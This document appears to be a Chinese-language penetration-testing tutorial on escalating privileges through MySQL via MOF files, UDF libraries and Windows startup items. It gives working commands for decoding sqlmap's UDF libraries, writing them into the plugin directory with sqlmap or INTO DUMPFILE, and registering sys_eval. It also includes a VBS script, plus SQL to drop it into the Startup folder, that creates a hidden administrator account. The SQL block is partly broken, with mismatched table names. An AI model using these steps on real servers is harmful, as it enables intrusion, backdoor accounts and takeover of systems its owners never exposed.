







# MOF提权

MOF 提权是一个有历史的漏洞，基本上在 `Windows Server 2003 `的环境下才可以成功。

提权的原理是`C:/Windows/system32/wbem/mof/`目录下的 `mof `文件每 隔一段时间（几秒钟左右）都会被系统执行，因为这个 MOF 里面有一部分是 VBS 脚本，所以可以利用这个 VBS 脚本来调用 CMD 来执行系统命令，如果 MySQL 有权限操作 `mof `目录的话，就可以来执行任意命令了。

经测试win7虽然存在这个文件目录，但是mysql以管理员权限运行，也会提示写入失败。

# UDF提权

UDF说白了就是自定义函数，是数据库功能的一种扩展。用户通过自定义函数可以实现在 MySQL 中无法方便实现的功能，其添加的新函数都可以在SQL语句中调用，就像调用本机函数 version() 等方便。

如果我们添加的自定义函数可以执行系统命令，那么是不是就相当于以mysql的权限去执行系统命令，如果mysql的权限比较高，是不是就可以达到一种权限提升的效果

## 动态链接库

构建UDF的过程，其实就是调用动态链接库的过程，因此我们首先必须知道动态链接库存放的位置，以及要有合适的动态链接库

- 如果mysql版本大于5.1，udf.dll文件必须放置在mysql安装目录的lib\plugin文件夹下

- 如果mysql版本小于5.1，udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录

```
show variables like '%plugin%'; # 查找插件目录
select @@basedir; # 查找 mysql 安装目录
```


那么动态链接库文件去哪里找呢？实际上我们常用的工具 sqlmap 和 Metasploit 里面都自带了对应系统的动态链接库文件。

- **sqlmap 的 UDF 动态链接库文件位置** `sqlmap根目录/data/udf/mysql`


不过 sqlmap 中 自带这些动态链接库为了防止被误杀都经过编码处理过，不能被直接使用。不过可以利用 sqlmap 自带的解码工具cloak.py 来解码使用，cloak.py 的位置为：`/extra/cloak/cloak.py` ，解码方法如下：

```
# 解码 32 位的 Linux 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/linux/32/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_32.so

# 解码 64 位的 Linux 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_64.so

# 解码 32 位的 Windows 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/windows/32/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_32.dll

# 解码 64 位的 Windows 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/windows/64/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_64.dll
```

- **Metasploit的UDF动态链接库文件位置**`/usr/share/metasploit-framework/data/exploits/mysql`



- 两款工具带的动态链接库是一样的

## 寻找插件目录


如果不存在的话

```
select @@basedir; # 寻找MySQL的安装目录
```



然后通过webshell手动去创建

## 写入动态链接库

**方法一：**

当SQL 注入且是高权限，plugin 目录可写且需要 secure_file_priv 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库，又因为 GET 有**字节长度限制**，所以往往 POST 注入才可以执行这种攻击

```
sqlmap -u "http://localhost:30008/" --data="id=1" --file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
```

**方法二：**

当没有注入点时，我们可以操作原生 SQL 语句，这种情况下当 secure_file_priv 无限制的时候，我们也是可以手工写文件到 plugin 目录下的：

```sql
# 直接 SELECT 查询十六进制写入
SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

# 解码十六进制再写入多此一举
SELECT unhex('7f454c4602...') INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
```

这里的十六进制怎么获取呢？可以利用 MySQL 自带的 hex 函数来编码：

```sql
# 直接传入路径编码
SELECT hex(load_file('/lib_mysqludf_sys_64.so'));

# 也可以将路径 hex 编码
SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f));
```

一般为了更方便观察，可以将编码后的结果导入到新的文件中方便观察：

```sql
SELECT hex(load_file('/lib_mysqludf_sys_64.so')) into dumpfile '/tmp/udf.txt'; 

SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f)) into dumpfile '/tmp/udf.txt';
```

**方法三：**

当webshell有一定权限时，可以直接通过文件上传的方式，上传对应的`dll`文件

## 创建自定义函数并调用命令

- `CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';`



- `select * from mysql.func;` 验证是否添加成功



- 调用该函数，即可以mysql权限执行一些系统命令


- 删除自定义函数 `drop function sys_eval;`



## UDF Shell

**方法一：UDF.PHP**

http://pan.dns.outnet/index.php?mod=shares&sid=R1ZXZ0UwdTJuSjVxZEVxd1JCc0E0TWl1VzZ1NjVOWW91Z3U2RExF



**方法二：ntunnel_mysql.php**

Navicat内置的php-mysq链接文件，上传到目标网站


对navicat进行如下配置即可：


**方法三：蚁剑内置插件**



# 启动项提权

windows开机时候都会有一些开机启动的程序，那时候启动的程序权限都是system，因为是system把他们启动的，利用这点，我们可以将自动化脚本写入启动项，达到提权的目的。当 Windows 的启动项可以被 MySQL 写入的时候可以使用 MySQL 将自定义脚本导入到启动项中，这个脚本会在用户登录、开机、关机的时候自动运行。

```
在windows2003的系统下，启动项路径如下：
	C:\Documents and Settings\Administrator\「开始」菜单\程序\启动
	C:\Documents and Settings\All Users\「开始」菜单\程序\启动

在windows2008的系统下，启动项路径如下：
	C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
	C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

我们在拿到一个网站的webshell的时候如果想进一步的获得网站的服务器权限，查看服务器上系统盘的可读可写目录，若是启动目录 `C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 是可读可写的，我们就可以执行上传一个vbs或者bat的脚本进行提权。

这里使用`test.vbs`添加用户密码，上传到启动目录重启的时候即可自动添加账号密码

```vb
set wshshell=createobject("wscript.shell")
a=wshshell.run("cmd.exe /c net user test test123 /add",0)
b=wshshell.run("cmd.exe /c net localgroup administrators test /add",0)
```

通过mysql的话：

```sql
use mysql;
create table test(cmd text);
insert into a values(“set wshshell=createobject(“”wscript.shell””)”);
insert into a values(“a=wshshell.run(“”cmd.exe /c net user test test123 /add“”,0)”);
insert into a values(“b=wshshell.run(“”cmd.exe /c net localgroup administrators test /add“”,0)”);
select * from a into outfile “C:\Documents and Settings\All Users\「开始」菜单\程序\启动\secist.vbs”;
```

重启之后可以提权

# CVE-2016-6663和CVE-2016-6664

https://www.freebuf.com/articles/web/288941.html

https://lengjibo.github.io/mysqludf/


